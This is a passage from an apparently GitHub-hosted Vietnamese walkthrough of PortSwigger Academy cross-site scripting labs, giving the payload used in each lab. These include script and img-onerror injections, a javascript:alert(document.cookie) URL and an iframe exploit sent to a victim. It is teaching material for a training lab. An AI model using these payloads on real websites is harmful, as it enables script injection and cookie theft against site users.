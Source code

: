 Chèn **"> <script> alert(1) </script>**:
  
![Cross-site scripting_4](https://github.com/ckiev5/portswigger_labs/blob/main/Images/Apprentice/Cross-site%20scripting_4.png)  
  
### Lab 04: DOM XSS in *innerHTML* sink using source *location.search*
Chèn **<\img src=1 onerror=alert(1)>** vào ô search:  
  
![Cross-site scripting_5](https://github.com/ckiev5/portswigger_labs/blob/main/Images/Apprentice/Cross-site%20scripting_5.png)  
  
### Lab 05: DOM XSS in jQuery anchor *href* attribute sink using *location.search* source
Thay đổi tham số **returnPath** thành ký tự bất kỳ trong URL: **/feedback?returnPath=/post**  
  
![Cross-site scripting_6](https://github.com/ckiev5/portswigger_labs/blob/main/Images/Apprentice/Cross-site%20scripting_6.png)  
  
Thay tham số **returnPath** thành **javascript:alert(document.cookie)**, và bấm chọn **Back**:  
  
![Cross-site scripting_7](https://github.com/ckiev5/portswigger_labs/blob/main/Images/Apprentice/Cross-site%20scripting_7.png)  
  
### Lab 06: DOM XSS in jQuery selector sink using a hashchange event
Code **auto-scroll**:  
  
![Cross-site scripting_8](https://github.com/ckiev5/portswigger_labs/blob/main/Images/Apprentice/Cross-site%20scripting_8.png)  
  
Sử dụng **exploit server**, chèn trong phần **Body**:
```
<iframe src="https://0af700a404372efac08d0a6000db00ca.web-security-academy.net/#" onload="this.src+='<img src=x onerror=print()>'"></iframe>
```  
Chọn **Deliver exploit to victim**:  
  